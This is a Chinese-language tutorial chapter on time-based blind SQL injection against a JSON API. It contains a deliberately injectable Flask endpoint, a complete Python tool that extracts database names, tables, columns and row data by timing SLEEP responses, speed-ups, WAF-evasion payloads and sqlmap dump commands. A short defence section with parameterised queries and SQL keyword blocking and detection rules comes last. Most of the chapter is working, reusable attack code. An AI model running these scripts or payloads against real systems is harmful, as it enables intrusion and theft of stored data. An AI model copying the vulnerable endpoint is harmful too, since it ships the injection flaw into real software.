

## 案例二：时间盲注提取数据库

时间盲注是SQL注入技术中最隐蔽、最难防御的攻击方式之一。当目标应用不回显任何数据库查询结果、也不显示详细错误信息时，攻击者只能通过观察服务器响应时间的差异来推断数据。本案例将从原理分析、漏洞复现、攻击脚本编写、防御绕过等多个维度，完整展示时间盲注的实战流程。

### 目标场景

一个API接口，页面不回显数据，但存在SQL注入漏洞。这是现代Web应用中最常见的场景——前后端分离架构下，API通常只返回JSON格式的业务数据，不会直接输出SQL查询结果，导致联合查询注入和报错注入失效。时间盲注成为这类场景下的主要攻击手段。

### 时间盲注原理

时间盲注的核心思想是：通过在SQL语句中嵌入条件判断和延时函数，根据服务器响应时间的长短来推断条件是否成立。以MySQL为例，其核心逻辑如下：

```text
如果 (条件为真) 则 (延迟3秒) 否则 (立即返回)
```

攻击者通过测量响应时间，就能逐位推断出数据库名、表名、列名和数据内容。这种攻击方式的特点是：完全不依赖页面回显，只依赖时间差异，因此对所有类型的SQL注入点都有效。

### 漏洞代码分析

```python
# api.py
from flask import Flask, request, jsonify
import pymysql

app = Flask(__name__)

@app.route('/api/check')
def check_user():
    username = request.args.get('username')
    conn = pymysql.connect(host='localhost', user='root', password='', db='users_db')
    cursor = conn.cursor()
    
    # 漏洞：字符串拼接，未对用户输入进行参数化处理
    query = f"SELECT COUNT(*) FROM users WHERE username = '{username}'"
    cursor.execute(query)
    count = cursor.fetchone()[0]
    
    if count > 0:
        return jsonify({"exists": True})
    return jsonify({"exists": False})
```

这段代码存在典型的SQL注入漏洞：直接将用户输入拼接到SQL语句中。关键点在于：API只返回 `{"exists": true/false}`，不包含任何数据库信息，因此联合查询注入和报错注入均无法使用，必须采用时间盲注。

### 时间盲注关键函数

在编写攻击脚本前，需要掌握MySQL中时间盲注的核心函数：

| 函数 | 作用 | 示例 |
|------|------|------|
| `SLEEP(n)` | 延迟n秒 | `SLEEP(3)` 延迟3秒 |
| `BENCHMARK(n, expr)` | 重复执行表达式n次 | `BENCHMARK(10000000, SHA1('test'))` |
| `IF(cond, true_val, false_val)` | 条件判断 | `IF(1=1, SLEEP(3), 0)` |
| `SUBSTR(str, pos, len)` | 截取子串 | `SUBSTR(database(), 1, 1)` |
| `ASCII(char)` | 获取字符ASCII码 | `ASCII('a')` = 97 |
| `LENGTH(str)` | 获取字符串长度 | `LENGTH(database())` |

### 攻击脚本详解

#### 完整攻击脚本

```python
import requests
import time
import string
import sys

class TimeBlindSQLi:
    """时间盲注提取数据库信息的完整工具类"""
    
    def __init__(self, url, delay=3, timeout=10):
        """
        初始化攻击参数
        Args:
            url: 目标API地址
            delay: 注入延迟时间（秒），需根据网络状况调整
            timeout: 请求超时时间（秒），必须大于delay
        """
        self.url = url
        self.delay = delay
        self.timeout = timeout
        self.charset = string.ascii_lowercase + string.digits + '_'
    
    def inject(self, payload):
        """
        执行注入并测量响应时间
        Args:
            payload: SQL注入payload
        Returns:
            bool: 条件是否为真（响应时间是否超过delay）
        """
        target = f"{self.url}?username={payload}"
        start = time.time()
        try:
            requests.get(target, timeout=self.timeout)
        except requests.Timeout:
            # 超时通常意味着注入成功，SLEEP导致请求未完成
            return True
        except requests.RequestException:
            return False
        elapsed = time.time() - start
        return elapsed >= self.delay
    
    def extract_string(self, query, max_len=50, label="data"):
        """
        通用字符串提取方法
        Args:
            query: SQL子查询，返回单个字符串
            max_len: 最大长度
            label: 输出标签
        Returns:
            str: 提取到的字符串
        """
        result = ""
        print(f"[*] 开始提取{label}...")
        
        for i in range(1, max_len + 1):
            found = False
            for char in self.charset:
                # 使用ASCII比较，避免特殊字符问题
                payload = f"-1' OR IF(ASCII(SUBSTR(({query}),{i},1))={ord(char)},SLEEP({self.delay}),0)--"
                
                if self.inject(payload):
                    result += char
                    print(f"[+] {label}: {result}")
                    found = True
                    break
            
            if not found:
                # 检查是否结束（可能是大写字母或特殊字符）
                # 尝试ASCII范围32-126
                for ascii_val in range(32, 127):
                    if chr(ascii_val) in self.charset:
                        continue
                    payload = f"-1' OR IF(ASCII(SUBSTR(({query}),{i},1))={ascii_val},SLEEP({self.delay}),0)--"
                    if self.inject(payload):
                        result += chr(ascii_val)
                        print(f"[+] {label}: {result}")
                        found = True
                        break
                
                if not found:
                    print(f"[*] {label}提取完成")
                    break
        
        return result
    
    def extract_number(self, query, max_val=1000, label="number"):
        """
        数字提取方法
        Args:
            query: SQL子查询，返回单个数字
            max_val: 最大值
            label: 输出标签
        Returns:
            int: 提取到的数字
        """
        print(f"[*] 开始提取{label}...")
        
        for i in range(0, max_val + 1):
            payload = f"-1' OR IF(({query})={i},SLEEP({self.delay}),0)--"
            if self.inject(payload):
                print(f"[+] {label}: {i}")
                return i
        
        print(f"[-] 未找到{label}")
        return None
    
    def get_database_name(self):
        """获取当前数据库名"""
        return self.extract_string("SELECT database()", max_len=50, label="数据库名")
    
    def get_database_length(self):
        """获取当前数据库名长度"""
        return self.extract_number("SELECT LENGTH(database())", max_val=50, label="数据库名长度")
    
    def get_table_count(self, db_name=None):
        """获取指定数据库的表数量"""
        if db_name is None:
            db_name = self.get_database_name()
        return self.extract_number(
            f"SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='{db_name}'",
            max_val=100,
            label="表数量"
        )
    
    def get_tables(self, db_name=None, max_tables=20):
        """
        获取指定数据库的所有表名
        Args:
            db_name: 数据库名，默认为当前数据库
            max_tables: 最大表数量
        Returns:
            list: 表名列表
        """
        if db_name is None:
            db_name = self.get_database_name()
        
        tables = []
        for i in range(max_tables):
            # 获取第i个表名
            table = self.extract_string(
                f"SELECT table_name FROM information_schema.tables WHERE table_schema='{db_name}' LIMIT {i},1",
                max_len=100,
                label=f"表{i+1}"
            )
            if table:
                tables.append(table)
            else:
                break
        
        return tables
    
    def get_columns(self, table_name, db_name=None, max_columns=20):
        """
        获取指定表的所有列名
        Args:
            table_name: 表名
            db_name: 数据库名，默认为当前数据库
            max_columns: 最大列数量
        Returns:
            list: 列名列表
        """
        if db_name is None:
            db_name = self.get_database_name()
        
        columns = []
        for i in range(max_columns):
            col = self.extract_string(
                f"SELECT column_name FROM information_schema.columns WHERE table_schema='{db_name}' AND table_name='{table_name}' LIMIT {i},1",
                max_len=100,
                label=f"列{i+1}"
            )
            if col:
                columns.append(col)
            else:
                break
        
        return columns
    
    def dump_table(self, table_name, columns=None, db_name=None, limit=100):
        """
        导出指定表的数据
        Args:
            table_name: 表名
            columns: 列名列表，默认自动获取
            db_name: 数据库名
            limit: 最大行数
        Returns:
            list: 数据列表
        """
        if db_name is None:
            db_name = self.get_database_name()
        if columns is None:
            columns = self.get_columns(table_name, db_name)
        
        print(f"\n[*] 开始导出 {db_name}.{table_name} 表数据...")
        print(f"[*] 列: {', '.join(columns)}")
        
        rows = []
        for i in range(limit):
            row = {}
            for col in columns:
                value = self.extract_string(
                    f"SELECT {col} FROM {db_name}.{table_name} LIMIT {i},1",
                    max_len=200,
                    label=f"行{i+1}.{col}"
                )
                if not value:
                    return rows
                row[col] = value
            rows.append(row)
            print(f"[+] 行{i+1}: {row}")
        
        return rows


def main():
    """主函数：演示完整攻击流程"""
    url = "http://target/api/check"
    
    # 初始化攻击器
    attacker = TimeBlindSQLi(url, delay=3, timeout=10)
    
    # Step 1: 获取数据库名
    print("\n" + "="*50)
    print("Step 1: 获取数据库名")
    print("="*50)
    db_name = attacker.get_database_name()
    print(f"\n[+] 数据库名: {db_name}")
    
    # Step 2: 获取表名
    print("\n" + "="*50)
    print("Step 2: 获取表名")
    print("="*50)
    tables = attacker.get_tables(db_name)
    print(f"\n[+] 表名列表: {tables}")
    
    # Step 3: 获取关键表的列名
    print("\n" + "="*50)
    print("Step 3: 获取表结构")
    print("="*50)
    for table in tables:
        if 'user' in table.lower():
            columns = attacker.get_columns(table, db_name)
            print(f"\n[+] {table} 表列名: {columns}")
            
            # Step 4: 导出数据
            print("\n" + "="*50)
            print(f"Step 4: 导出 {table} 表数据")
            print("="*50)
            data = attacker.dump_table(table, columns, db_name, limit=10)
            print(f"\n[+] 导出完成，共 {len(data)} 条记录")
            break


if __name__ == "__main__":
    main()
```

### 攻击流程图



### 实战技巧与优化

#### 1. 二分法优化

逐字符遍历效率较低，使用二分法可大幅提升速度：

```python
def extract_string_binary(self, query, max_len=50, label="data"):
    """使用二分法提取字符串，效率提升10倍以上"""
    result = ""
    
    for i in range(1, max_len + 1):
        # 二分法查找ASCII码
        low, high = 32, 126
        
        while low < high:
            mid = (low + high) // 2
            payload = f"-1' OR IF(ASCII(SUBSTR(({query}),{i},1))>{mid},SLEEP({self.delay}),0)--"
            
            if self.inject(payload):
                low = mid + 1
            else:
                high = mid
        
        # 验证找到的值
        payload = f"-1' OR IF(ASCII(SUBSTR(({query}),{i},1))={low},SLEEP({self.delay}),0)--"
        if self.inject(payload):
            result += chr(low)
            print(f"[+] {label}: {result}")
        else:
            break
    
    return result
```

二分法将每个字符的查找次数从平均47次降低到7次（log₂(94)），整体攻击时间缩短约6倍。

#### 2. 多线程并行优化

```python
import concurrent.futures

def extract_parallel(self, queries, max_workers=5):
    """并行提取多个字符串"""
    with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
        futures = {
            executor.submit(self.extract_string, q): q 
            for q in queries
        }
        results = {}
        for future in concurrent.futures.as_completed(futures):
            query = futures[future]
            results[query] = future.result()
    return results
```

注意：多线程会增加服务器负载，可能触发WAF或导致服务器不稳定，需谨慎使用。

#### 3. 基于BENCHMARK的替代方案

当SLEEP函数被禁用时，可使用BENCHMARK函数：

```python
# MySQL BENCHMARK替代方案
payload = f"-1' OR IF(ASCII(SUBSTR(database(),{i},1))={ord(char)},BENCHMARK(10000000,SHA1('test')),0)--"
```

### WAF绕过技巧

#### 1. 空格绕过

```python
# 使用注释替代空格
payload = "-1'/**/OR/**/IF(SUBSTR(database(),1,1)='a',SLEEP(3),0)--"

# 使用括号
payload = "-1'OR(IF(SUBSTR(database(),1,1)='a',SLEEP(3),0))--"

# 使用换行符
payload = "-1'%0AOR%0AIF(SUBSTR(database(),1,1)='a',SLEEP(3),0)--"
```

#### 2. 函数名绕过

```python
# 大小写混合
payload = "-1' OR If(SubStr(database(),1,1)='a',SLEEP(3),0)--"

# 使用等价函数
payload = "-1' OR IF(MID(database(),1,1)='a',SLEEP(3),0)--"
payload = "-1' OR IF(LEFT(database(),1)='a',SLEEP(3),0)--"
```

#### 3. 时间延迟绕过

```python
# 使用多个SLEEP叠加
payload = "-1' OR IF(1=1,SLEEP(1)+SLEEP(2),0)--"

# 使用复杂计算消耗时间
payload = "-1' OR IF(1=1,(SELECT BENCHMARK(10000000,SHA1('test'))),0)--"

# 使用笛卡尔积消耗时间
payload = "-1' OR IF(1=1,(SELECT COUNT(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C),0)--"
```

#### 4. 编码绕过

```python
# URL编码
payload = "-1'%20OR%20IF(SUBSTR(database(),1,1)='a',SLEEP(3),0)--"

# 双重URL编码
payload = "-1'%2520OR%2520IF(SUBSTR(database(),1,1)='a',SLEEP(3),0)--"

# Unicode编码
payload = "-1' OR IF(SUBSTR(database(),1,1)='a',SLEEP(3),0)--"
# 将单引号替换为 %u0027
```

### 常见问题与解决方案

#### 1. 网络延迟干扰

**问题**：网络不稳定导致误判

**解决方案**：
- 多次测量取平均值
- 设置合理的阈值（建议delay的1.5倍）
- 使用相对时间差而非绝对时间

```python
def inject_with_baseline(self, payload, baseline_samples=3):
    """基于基准时间的注入判断"""
    # 先测量基准响应时间
    baseline_times = []
    for _ in range(baseline_samples):
        target = f"{self.url}?username=test"
        start = time.time()
        try:
            requests.get(target, timeout=self.timeout)
        except:
            pass
        baseline_times.append(time.time() - start)
    
    baseline = sum(baseline_times) / len(baseline_times)
    
    # 执行注入
    target = f"{self.url}?username={payload}"
    start = time.time()
    try:
        requests.get(target, timeout=self.timeout)
    except requests.Timeout:
        return True
    elapsed = time.time() - start
    
    # 判断：注入响应时间是否显著大于基准时间
    return elapsed > baseline + self.delay
```

#### 2. 服务器超时限制

**问题**：服务器设置了请求超时，SLEEP时间过长导致连接断开

**解决方案**：
- 减小SLEEP时间，增加判断精度
- 使用BENCHMARK替代SLEEP
- 多次短延迟叠加

#### 3. 字符集问题

**问题**：数据库中包含中文或其他特殊字符

**解决方案**：
```python
def extract_unicode_string(self, query, max_len=50, label="data"):
    """提取包含Unicode字符的字符串"""
    result = ""
    
    for i in range(1, max_len + 1):
        # 先尝试ASCII字符
        for ascii_val in range(32, 127):
            payload = f"-1' OR IF(ASCII(SUBSTR(({query}),{i},1))={ascii_val},SLEEP({self.delay}),0)--"
            if self.inject(payload):
                result += chr(ascii_val)
                break
        else:
            # 尝试多字节字符
            for unicode_val in range(19968, 40870):  # 常用汉字范围
                payload = f"-1' OR IF(ORD(SUBSTR(({query}),{i},1))={unicode_val},SLEEP({self.delay}),0)--"
                if self.inject(payload):
                    result += chr(unicode_val)
                    break
            else:
                break
        
        print(f"[+] {label}: {result}")
    
    return result
```

### 与其他注入方式的对比

| 特性 | 时间盲注 | 布尔盲注 | 报错注入 | 联合查询注入 |
|------|----------|----------|----------|--------------|
| 依赖回显 | 否 | 是（页面差异） | 是（错误信息） | 是（查询结果） |
| 速度 | 慢 | 中 | 快 | 最快 |
| 隐蔽性 | 最高 | 中 | 低 | 低 |
| 适用场景 | API/无回显 | 有回显差异 | 有错误回显 | 有数据回显 |
| 复杂度 | 高 | 中 | 低 | 低 |
| WAF绕过 | 容易 | 中等 | 困难 | 困难 |

### 使用sqlmap自动化

对于时间盲注，sqlmap是最强大的自动化工具：

```bash
# 基本用法，指定时间盲注技术
sqlmap -u "http://target/api/check?username=test" --technique=T --batch

# 设置延迟时间
sqlmap -u "http://target/api/check?username=test" --technique=T --time-sec=3

# 枚举数据库
sqlmap -u "http://target/api/check?username=test" --technique=T --dbs

# 枚举表
sqlmap -u "http://target/api/check?username=test" --technique=T -D users_db --tables

# 枚举列
sqlmap -u "http://target/api/check?username=test" --technique=T -D users_db -T users --columns

# 导出数据
sqlmap -u "http://target/api/check?username=test" --technique=T -D users_db -T users --dump

# 使用自定义payload
sqlmap -u "http://target/api/check?username=test" --technique=T --prefix="-1' OR " --suffix="--"

# 绕过WAF
sqlmap -u "http://target/api/check?username=test" --technique=T --tamper=space2comment,between,randomcase

# 使用代理
sqlmap -u "http://target/api/check?username=test" --technique=T --proxy="http://127.0.0.1:8080"

# 调整延迟（避免被封禁）
sqlmap -u "http://target/api/check?username=test" --technique=T --delay=1
```

### 防御措施

#### 1. 参数化查询（最有效）

```python
# 正确的参数化查询
query = "SELECT COUNT(*) FROM users WHERE username = %s"
cursor.execute(query, (username,))
```

#### 2. 输入验证

```python
import re

def validate_username(username):
    """验证用户名格式"""
    if not re.match(r'^[a-zA-Z0-9_]{3,20}$', username):
        raise ValueError("用户名格式不正确")
    return username
```

#### 3. 最小权限原则

```sql
-- 创建专用查询用户，只授予必要权限
CREATE USER 'app_user'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT ON users_db.users TO 'app_user'@'localhost';
FLUSH PRIVILEGES;
```

#### 4. WAF配置

```nginx
# Nginx WAF规则示例
location /api/ {
    # 检测SQL注入关键词
    if ($args ~* "(SLEEP|BENCHMARK|IF\(|SUBSTR|ASCII\()") {
        return 403;
    }
    
    # 限制请求频率
    limit_req zone=api burst=10 nodelay;
}
```

#### 5. 监控与告警

```python
import logging
from datetime import datetime

# 配置日志
logging.basicConfig(
    filename='/var/log/api_security.log',
    level=logging.WARNING,
    format='%(asctime)s - %(levelname)s - %(message)s'
)

def detect_sqli_attempt(request):
    """检测SQL注入尝试"""
    suspicious_patterns = [
        'SLEEP', 'BENCHMARK', 'IF(', 'SUBSTR', 'ASCII(',
        'UNION', 'SELECT', 'WHERE', 'OR 1=1'
    ]
    
    username = request.args.get('username', '')
    for pattern in suspicious_patterns:
        if pattern.lower() in username.lower():
            logging.warning(
                f"SQL注入尝试: IP={request.remote_addr}, "
                f"User-Agent={request.headers.get('User-Agent')}, "
                f"Payload={username}"
            )
            return True
    return False
```

### 总结

时间盲注是SQL注入技术中最具挑战性但也最实用的攻击方式。通过本案例的学习，你应该掌握：

1. **原理理解**：时间盲注通过SLEEP/BENCHMARK函数和响应时间差异来推断数据
2. **攻击流程**：数据库名→表名→列名→数据，逐层提取
3. **优化技巧**：二分法、多线程、基准时间对比
4. **WAF绕过**：空格、函数名、编码等多种绕过技术
5. **防御方法**：参数化查询、输入验证、最小权限、WAF配置

在实战中，建议优先使用sqlmap等自动化工具，手动编写脚本主要用于特殊场景或定制化需求。同时，务必遵守法律法规，仅在授权范围内进行安全测试。

***
